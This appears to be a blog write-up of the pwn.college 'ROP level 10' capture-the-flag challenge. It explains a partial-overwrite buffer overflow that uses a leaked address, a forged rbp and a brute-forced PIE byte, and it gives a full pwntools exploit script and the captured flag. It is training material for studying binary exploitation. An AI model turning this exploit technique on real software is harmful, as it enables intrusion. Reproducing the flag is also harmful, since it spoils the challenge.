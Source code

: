 ```yaml
---
layout: post
title: (ROP) level 10
date: 2025-07-10 18:32:34 +0300
categories: pwn.college ROP
tags: pwn.college ROP brute-force partial-overwrite buffer-overflow ret2win bad-byte
---
```


## Information 
- category: pwn

## Description
> Perform a partial overwrite to call the win function.

## Write-up
**So after running the challenge, we get a leak of the input buffer's address.**
We’ll use this leak later to calculate the address of the ```win``` function by subtracting ```0x10``` from it:
```bash
./challenge
....
....
[LEAK] Your input buffer is located at: 0x7ffdbd72cc68.
```
> 💡 The leaked buffer address ```0x7ffdbd72cc68``` helps us calculate the address of `win` by subtracting `0x10`.
{: .prompt-info}

Now we’ll calculate the offset to the ```rbp``` register and the return address:
```bash

Breakpoint 1, 0x00005e8365a34656 in challenge ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
──────[ REGISTERS / show-flags off / show-compact-regs off ]──────
*RAX  0x7fff66dc11e8 ◂— 0
 RBX  0x5e8365a347b0 (__libc_csu_init) ◂— endbr64 
*RCX  0
*RDX  0x1000
*RDI  0
*RSI  0x7fff66dc11e8 ◂— 0
*R8   0x4a
*R9   0x4a
*R10  0x5e8365a35834 ◂— 0x6563655200000a2e /* '.\n' */
*R11  0x246
 R12  0x5e8365a33240 (_start) ◂— endbr64 
 R13  0x7fff66dc1350 ◂— 1
 R14  0
 R15  0
*RBP  0x7fff66dc1230 —▸ 0x7fff66dc1260 ◂— 0
*RSP  0x7fff66dc11c0 —▸ 0x721f35bbc6a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
*RIP  0x5e8365a34656 (challenge+584) ◂— call 0x5e8365a331b0


──────────────────────────[ BACKTRACE ]───────────────────────────
 ► 0   0x5e8365a34656 challenge+584
   1   0x5e8365a3479b main+165
   2   0x721f359f3083 __libc_start_main+243
   3   0x5e8365a3326e _start+46
──────────────────────────────────────────────────────────────────
```

```
pwndbg> dist $rsi 0x7fff66dc1230
0x7fff66dc11e8->0x7fff66dc1230 is 0x48 bytes (0x9 words)
```

**But how can we return to the win function when:**

- The binary has **PIE enabled**
- We're allowed to execute only **one gadget**
- And we don’t know the base address directly?

Here’s the strategy:

We know that the program calls a function named ```challenge```, and after it returns, it continues execution normally.
If we can forge a fake ```rbp``` value so that when the function returns, it **lands on a controlled address**, we can redirect execution to ```win```.


**The Trick — Brute-Forcing PIE LSB**

Since **PIE** is enabled, the address of:
```0x00005e8365a3371e: leave; ret; ``` 
changes each time — but only one byte vary.
We can brute-force the this byte to find the correct ret into win.
> The critical byte is `0x33` — brute-forcing it allows us to bypass PIE and reach the `win` function.
{: .prompt-tip}


**So the final trick is:**

- Forge a fake ```rbp```
- Use a gadget  ```leave; ret```
- **Brute-force** the key PIE byte (```0x33```) to jump into ```win```

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("/challenge/babyrop_level10.0")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addrr", 1337)

    return r


def get_leak(r):
    r.recvuntil(b"located at: ")
    buffer = int(r.recvline().decode().split(".")[0],16)
    return buffer



def main():
    while True:
        r = conn()

        address_win = get_leak(r) - 0x10

        offset = 72

        fixed_byte = b"\x1e"
        i = [p8(0x7 + nn) for nn in range(0x00,0x100,0x10)]

        payload = b"A"*offset + p64(address_win) + fixed_byte + random.choice(i)

        r.send(payload)
        res = r.recvall(timeout=3)

        if b"pwn.college{" in res:
            print(res)
            break

if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` pwn.college{J6Zz_twSS7T9-zrasHq-EfDZch7.0VO1MDLwczN4czW}```






